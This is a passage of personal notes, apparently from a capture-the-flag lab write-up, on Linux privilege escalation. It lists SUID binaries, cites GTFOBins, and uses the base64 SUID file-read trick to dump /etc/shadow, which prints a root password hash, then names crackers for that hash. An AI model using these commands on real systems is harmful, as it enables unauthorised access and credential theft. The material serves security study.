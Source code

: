 ```bash
17836404   16 -rwsr-xr-x   1 root     root        15448 Apr  1  2020 /usr/libexec/spice-gtk-x86_64/spice-client-glib-usb-acl-helper
18393221   16 -rwsr-xr-x   1 root     root        15360 Oct  1  2020 /usr/libexec/qemu-bridge-helper
37203442  156 -rwsr-x---   1 root     sssd       157872 Oct 15  2020 /usr/libexec/sssd/krb5_child
37203771   84 -rwsr-x---   1 root     sssd        82448 Oct 15  2020 /usr/libexec/sssd/ldap_child
37209171   52 -rwsr-x---   1 root     sssd        49592 Oct 15  2020 /usr/libexec/sssd/selinux_child
37209165   28 -rwsr-x---   1 root     sssd        27792 Oct 15  2020 /usr/libexec/sssd/proxy_child
18270608   16 -rwsr-sr-x   1 abrt     abrt        15344 Oct  1  2020 /usr/libexec/abrt-action-install-debuginfo-to-abrt-cache
18535928   56 -rwsr-xr-x   1 root     root        53776 Mar 18  2020 /usr/libexec/flatpak-bwrap
```

- Actions taken 
    - Checked out [GTFOBins](https://gtfobins.github.io/)
    - When checking out exploits at GTFOBins
        - Don't bother with the sudo exploits since you need sudo privileges to use them 
    - crontab -e 
        - Can be used to breakout restricted  environments by running non-interactive system commands 
        - The commands are executed according to the crontab file 
            - Edited via the **crontab** utility
        - Command : crontab -e
    - Reminder, check out just the SUID exploits 
    - Trying out base64 SUID exploit **File read**
        - Checking out /etc/shadow 
        - This directory stores all the hased passwords for ALL system accounts
        - Only root can read it 
        - Each line corresponds to a user and includes
        ```bash 
        username:hashed_password:last_change:min:max:warn:inactive:expire 
        ```
        - You can then use tools like
            - John the ripper 
            - Hashcat
    - Solution : base64 SUID exploit 
```bash
File read
    
It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

LFILE=file_to_read
base64 "$LFILE" | base64 --decode

# Output for : /usr/bin/base64 /etc/shadow | base64 --decode

[leonard@ip-10-10-102-202 ~]$ /usr/bin/base64 /etc/shadow | base64 --decode
root:$6$DWBzMoiprTTJ4gbW$g0szmtfn3HYFQweUPpSUCgHXZLzVii5o6PM0Q2oMmaDD9oGUSxe1yvKbnYsaSYHrUEQXTjIwOW/yrzV5HtIL51::0:99999:7:::
bin:*:18353:0:99999:7:::
daemon:*:18353:0:99999:7:::
adm:*:18353:0:99999:7:::
lp:*:18353:0:99999:7:::
sync:*:18353:0:99999:7:::
shutdown:*:18353:0:99999:7:::
halt:*:18353:0:99999:7:::
mail:*:18353:0:99999:7:::
operator:*:18353:0:99999:7:::
games:*:18353:0:99999:7:::
ftp:*:18353:0:99999:7:::
nobody:*:18353:0:99999:7:::
pegasus:!!:18785::::::
systemd-network:!!:18785::::::
```